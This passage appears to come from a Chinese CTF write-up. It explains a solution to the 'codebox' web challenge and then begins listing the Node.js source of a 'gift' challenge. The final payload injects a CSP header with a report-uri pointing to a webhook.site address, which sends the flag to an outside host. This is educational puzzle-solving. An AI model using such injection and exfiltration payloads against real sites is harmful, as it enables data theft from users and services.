 如果直接打的话浏览器只会拦截前面的 `frame.srcdoc = code` 并且停止往后执行 js, 导致我们无法拿到后面的 flag

![image-20230206162724559](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302061627626.png)

所以需要先传一个空的 code 参数让 js 跳过 if 语句直接来到 `document.getElementById('flag').innerHTML = xxx` 这句, 而这个时候后端其实已经获取到了真正的 code 参数并设置好了 csp 头, 这样才能拿到 flag

最终 payload

```
https://codebox.mc.ax/?code=&code=<img+src%3d"*%3b+require-trusted-types-for+'script'%3b+report-uri+https%3a//webhook.site/c11276d8-0c36-471a-9943-0bdc425ae414"/>
```

![image-20230206191351390](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202302061914620.png)

## gift [复现]

index.js

```javascript
const crypto = require('crypto')
const fs = require('fs')

const logger = (data) => fs.appendFile('debug', data, () => {})

const express = require('express')
const app = express()

app.use(express.static('static'))

app.use('*', (req, _res, next) => {
    req.token = req.headers['cookie']?.split('; ')[0]?.split('=')[1]
    req.user = users.get(req.token)
    next()
})

app.post('/api/*', async (req, _res, next) => {
    const data = []
    req.on('data', [].push.bind(data))
    await new Promise((res) => req.on('end', res))
    try {
        req.body = JSON.parse(Buffer.concat(data).toString())
    } catch {
        req.body = {}
    }
    next()
})

const users = new Map()
const gifts = new Map()
const names = new Set()

const createHex = () => crypto.randomBytes(16).toString('hex')

const createUser = (name, balance) => {
    const id = createHex()
    name = (name ?? '').toString()
    if (name === '') { return void 0 }
    if (names.has(name)) { return void 1 }

    // name is valid and not taken, so create the user
    [console.log, logger]?.[process.env.LOG]?.('created user')

    users.set(id, { name, balance })
```